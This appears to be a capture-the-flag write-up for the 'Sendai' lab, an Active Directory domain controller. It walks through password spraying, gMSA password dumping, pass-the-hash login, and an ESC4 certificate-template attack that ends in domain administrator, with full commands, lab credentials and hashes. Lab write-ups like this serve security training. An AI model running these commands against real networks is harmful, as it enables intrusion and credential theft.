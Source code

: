 
![](Sendai_Cover.png)

## INFO

```
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
443/tcp  open  https
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
```

Guest Level Access in the smb share . Lets Explore !

![](../VIGILANT_/Guest_Access.png)


![](Shares_Content.png)

We found potential user accounts and a note which states that ``All user accounts with insecure passwords have been expired as a precautionary measure. This means that affected users will be required to change their passwords upon their next login.`` Which is a good sign for a penetration-tester. 


## INITIAL ACCESS

Checkin' with common credentials !
```
└─# crackmapexec smb 10.10.127.65 -u user_lst -p '' --continue-on-success

[-] sendai.vl\Elliot.Yates: STATUS_PASSWORD_MUST_CHANGE 
[-] sendai.vl\Thomas.Powell: STATUS_PASSWORD_MUST_CHANGE

[-] sendai.vl\Susan.Harper:Sendai2023 STATUS_PASSWORD_MUST_CHANGE

[-] sendai.vl\Lisa.Williams:Summer2023 STATUS_PASSWORD_MUST_CHANGE
```

Changing the password ;

```
─# impacket-changepasswd sendai.vl/Lisa.Williams:Summer2023@10.10.127.65
```

![](Password_Change.png)


As we found valid domain user . Now it time to enumerate shares , ADCS , run bloodhound.

Now , we got access to the config share , where there is .sqlconfig file with credentials of the database. But mssql isnt accessible via external network . Gotta wait till we breach the machine !


![](sql.config.png)


```
└─# bloodhound-python --username lisa.williams --password 'p@ssw0rd' --nameserver 10.10.127.65 --domain sendai.vl --domain-controller DC.sendai.vl --dns-tcp --collectionmethod all --zip
```



![](Bloodhound_.png)

Being member of the Support Group we have `Generic All` privilege !

```
Full control of a group allows you to directly modify group membership of the group.
```

Why this attack ? Members of ADMSVC group can `ReadGMSAPassword` od the MGTSVC$ account which can PSRemote to the machine.


![](Bloodhound_Gmsa.png)


Lets attack :
--> Add lisa.williams to the ADMSVC group .

```
└─# net rpc group addmem "ADMSVC" "lisa.williams" -U "sendai.vl"/"lisa.williams"%"p@ssw0rd" -S "dc.sendai.vl"
```

--> Read GMSA Password .

```
└─# python gMSADumper.py -u lisa.williams -p 'p@ssw0rd' -d sendai.vl
```

![](GMSA_CREDS.png)

Cool ! We got mgtsvc$ account hash.

```
└─# evil-winrm -i sendai.vl -u mgtsvc$ -H 582bdf7c5328ca2bf3de975a6ed4b7c7
```


# ESC4 Attack

Running  [PrivescCheck.ps1](https://github.com/itm4n/PrivescCheck) We found creds of clifford.davey.

![](Clifford_Davey.png)

clifford.davey  ::  RFmoB2WplgE_3p 

This guy is CA-OPERATOR !

![](CA-Operator.png)



```
└─# certipy-ad find -username 'clifford.davey@sendai.vl' -password 'RFmoB2WplgE_3p' -enabled -dc-ip 10.10.127.65 -stdout -vulnerable
```


![](ESC4_CA.png)


Lets attack the vulnerability and gain access as DA. [ESC4_Attack](https://github.com/ly4k/Certipy?tab=readme-ov-file#esc4)


ESC4 is when a user has write privileges over a certificate template. This can for instance be abused to overwrite the configuration of the certificate template to make the template vulnerable to ESC1.

```
└─# certipy-ad template -username 'clifford.davey@sendai.vl' -password 'RFmoB2WplgE_3p' -template 'SendaiComputer'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'SendaiComputer'
[*] Successfully updated 'SendaiComputer'
```


The certificate template is now vulnerable to the ESC1 technique.

Therefore, we can now request a certificate based on the ESC4 template and specify an arbitrary SAN with the `-upn` or `-dns` parameter.

```
└─# certipy-ad req -username 'clifford.davey@sendai.vl' -password 'RFmoB2WplgE_3p' -template 'SendaiComputer' -ca 'sendai-DC-CA' -upn 'administrator@sendai.vl'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 5
[*] Got certificate with UPN 'administrator@sendai.vl'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

```
└─# certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.127.65
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sendai.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sendai.vl': aad3b435b51404eeaad3b435b51404ee:cfb106feec8b89a3d98e14dcbe8d087a
```

Cool ! The DC has been pwned !!



As we have mssql credentials , and service running . We can exploit it using the silver tickets.

